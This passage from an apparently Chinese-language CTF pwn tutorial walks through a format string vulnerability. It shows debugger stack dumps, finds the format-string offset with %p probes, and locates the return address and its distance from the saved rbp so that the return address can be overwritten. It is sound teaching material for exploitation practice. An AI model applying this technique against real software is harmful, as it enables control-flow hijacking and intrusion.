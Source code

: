 此时栈的情况为

```shell
─────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x400b1a                  call   0x400758
     0x400b1f                  lea    rdi, [rbp+0x10]
     0x400b23                  mov    eax, 0x0
 →   0x400b28                  call   0x400770
   ↳    0x400770                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc0
        0x400776                  xchg   ax, ax
        0x400778                  jmp    QWORD PTR [rip+0x20184a]        # 0x601fc8
        0x40077e                  xchg   ax, ax
────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以发现我们输入的用户名在栈上第三个位置，那么除去本身格式化字符串的位置，其偏移为为 5 + 3 = 8。

**注解**：

这里我还是用我习惯的方法，输出几个 %p 直接数出来偏移。

#### 修改地址 

我们再仔细观察下断点（b printf）处栈的信息

```sehll
0x00007fffffffdb40│+0x00: 0x00007fffffffdb80  →  0x00007fffffffdc30  →  0x0000000000400eb0  →   push r15     ← $rsp, $rbp
0x00007fffffffdb48│+0x08: 0x0000000000400d74  →   add rsp, 0x30
0x00007fffffffdb50│+0x10: "aaaaaaaa"     ← $rdi
0x00007fffffffdb58│+0x18: 0x000000000000000a
0x00007fffffffdb60│+0x20: 0x7025702500000000
0x00007fffffffdb68│+0x28: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdb70│+0x30: "%p%p%p%pM\r@"
0x00007fffffffdb78│+0x38: 0x0000000000400d4d  →   cmp eax, 0x2
```

可以看到栈上第二个位置存储的就是该函数的返回地址 (其实也就是调用 show account 函数时执行 push rip 所存储的值)，在格式化字符串中的偏移为 7。

与此同时栈上，第一个元素存储的也就是上一个函数的 rbp。所以我们可以得到偏移 0x00007fffffffdb80 - 0x00007fffffffdb48 = 0x38。继而如果我们知道了 rbp 的数值，就知道了函数返回地址的地址。
